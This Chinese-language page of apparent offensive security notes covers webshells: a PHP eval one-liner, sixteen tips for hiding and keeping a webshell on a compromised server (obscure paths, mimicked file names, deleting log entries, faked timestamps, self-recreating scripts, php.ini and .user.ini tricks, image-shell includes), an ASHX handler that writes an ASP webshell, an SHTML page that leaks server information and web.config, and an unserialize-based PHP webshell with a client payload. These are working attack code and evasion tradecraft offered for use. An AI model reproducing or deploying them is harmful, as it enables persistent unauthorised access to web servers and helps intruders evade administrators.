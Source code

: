 # 一句话
```php
<?php eval($_POST[b])?>




```

# 隐藏webshell的几条建议

```
1.尽量藏在那些程序员和管理员都不会经常光顾的目录中
比如:第三方工具的一些插件目录,主题目录,编辑器的图片目录以及一些临时目录

2.目录层级越深越好,平时网站不出问题的话,一般四五级目录很少会被注意到

3.webshell的名字千万不要太扎眼,比如:hack.php,sb.php,x.php这样的名字严禁出现……,在给webshell起名的时候尽量跟当前目录的,其他文件的名字相似度高一点,这样相对容易混淆视听,比如:目录中有个叫new.php的文件,那你就起个news.php

4.webshell里面尽量不要用类似eval这种过于敏感的特征,因为awk一句话就能查出来,除了eval,还有,比如:exec,system,passthru,shell_exec,assert这些函数都最好不要用,你可以尝试写个自定义函数,不仅能在一定程度上延长webshell的存活时间也加大了管理员的查找难度,也可以躲避一些功能比较简陋waf查杀,此外,我们也可以使用一些类似:call_user_func,call_user_func_array,诸如此类的回调函数特性来构造我们的webshell,即伪造正常的函数调用

5.靠谱的方法就是直接把一句话插到正常的网站脚本文件里面,当然最好是在一个不起眼的地方,比如:函数库文件,配置文件里面等等,以及那些不需要经常改动的文件……

6.再或者拿到权限以后,把网站日志中的所有关于webshell的访问记录和渗透时造成的一些网站报错记录全部删除

7.尝试利用静态文件隐藏一句话,然后用.htaccess 规则进行解析

8.把webshell的属性时间改为和同目录文件相同的时间戳,比如linux中的touch就是非常好的工具

9.当然,如果在拿到服务器权限以后,也可以自己写个脚本每隔一段时间检测下自己的webshell是否还存在,不存在就创建

10.利用php.ini 配置文件隐藏webshell,把webshell的路径加入到配置文件中

11.如果是大马的话,尽量把里面的一些注释和作者信息全部都去掉,比如intitle字段中的版本信息等等,用任何大马之前最好先好好的读几遍代码,把里面的shell箱子地址全部去掉推荐用开源的大马,然后自己拿过来仔细修改,记住,我们的webshell尽量不要用加密,因为加密并不能很好的解决waf问题,还有,大马中一般都会有个pass或者password字符,建议把这些敏感字段全部换成别的,因为利用这样的字符基本一句话就能定位到

12.养成一个好习惯,为了防止权限很快丢失,最好再同时上传几个备用webshell,注意,每个webshell的路径和名字千万不要都一样更不要在同一个目录下,多跳几层,记住,确定shell正常访问就可以了,不用再去尝试访问看看解析是否正常,因为这样就会在日志中留下记录,容易被查到

13.在有权限的情况,看看管理员是否写的有动态webshell监测脚本,务必把脚本找出来,crontab一般都能看见了

14.上传个精心构造的图片马,然后再到另一个不起眼的正常的网站脚本文件中去包含这个图片马

15.如果有可能的话,还是审计下目标的代码,然后想办法在正常的代码中构造执行我们自己的webshell,即在原生代码中执行webshell

16.上传.user.ini文件来解析图片或隐藏webshell[https://ha.cker.in/1097.seo]

```

# 写shell技巧

## ashx写入

ashx脚本，服务器有.net环境但aspx被禁止上传时适用。这个执行后会在当前目录下生成webshell.asp一句话木马，密码是pass 也可以写入其它文件

```as
<%@ WebHandler Language="C#" class="Handler"% >
using System;
using System.Web;
using System.IO;
public class Handler:IHttpHandler {
 
public void ProcessRequest (HttpContext context) {
    context.Response.ContentType = "text/plain";
    StreamWriter file = File.CreateText(context.Server.MapPath("webshell.asp")));
    file.Write("<%eval request(\"pass\")%>");
    file.Flush();
    file.Close();
    context.Response.Write("www.webshell.cc");
}
 
public bool IsReusable {
    get {
        return false;
    }
}
}
```



## 别忘了shtml

stm/shtm/shtml脚本，虽然不能直接拿到webshell，但是可以获取到一些服务器信息。注意stm中的include可以将web.config文件中的内容包含进来

```html
<!--#ECHO var="ALL_HTTP"-->
当前文件名称:<!--#ECHO var="DOCUMENT_NAME"-->
Web服务器的名称和版本:<!--#ECHO var="SERVER_SOFTWARE"-->
主机名:<!--#ECHO var="SERVER_NAME"-->
端口:<!--#ECHO var="SERVER_PORT"-->
客户或客户代理IP地址:<!--#ECHO var="REMOTE_ADDR"-->
客户或客户代理主机名:<!--#ECHO var="REMOTE_HOST"-->
PATH_INFO 的值，但带有扩展为某个目录规范的虚拟路径:
<!--#ECHO var="PATH_TRANSLATED"-->
客户端给出附加路径信息:<!--#ECHO var="PATH_INFO"-->
<!--#ECHO var="HTTP_ACCEPT"-->
<!--#ECHO var="DOCUMENT_URI"-->
<!--#include file="../../web.config"-->
```

## 利用unserialize构造webshell

server:

```php
<?php

class foo{
    public $data="text";
    function __destruct()
    {
        eval($this->data);
    }

}

$file_name=$_GET['id'];
unserialize($file_name);
```

client:生成执行地址

```php
<?php

class foo{
    #public $data="phpinfo();";
    public $data="system('ls');";

}
$a=new foo;
$b=serialize($a);
echo "please visit uri:\n"."[your shell page url]"."?id=".$b;
```

原理：服务端被访问后在内存中有一个foo类模板,当客户端伪造一个同名的叫做foo的类的对象的序列化后的结果给服务端反序列化时,服务端在反序列化这个这个传入的反序列化值后将认为这是当前内存中对应的foo类模板的一个实例对象,于是去执行当前内存的foo类模板的`__wakeup`,`__destruct`等函数,但是恰好这些函数会造成php代码执行[eval($this->data)],且$this->data可控.




## 资料
shtml

https://www.t00ls.net/viewthread.php?tid=21318

Deformity PHP Webshell、Webshell Hidden Learning

http://www.cnblogs.com/LittleHann/p/3522990.html

unserialize免杀webshell

http://3xp10it.cc/web/2017/04/18/unserialize%E5%85%8D%E6%9D%80webshell/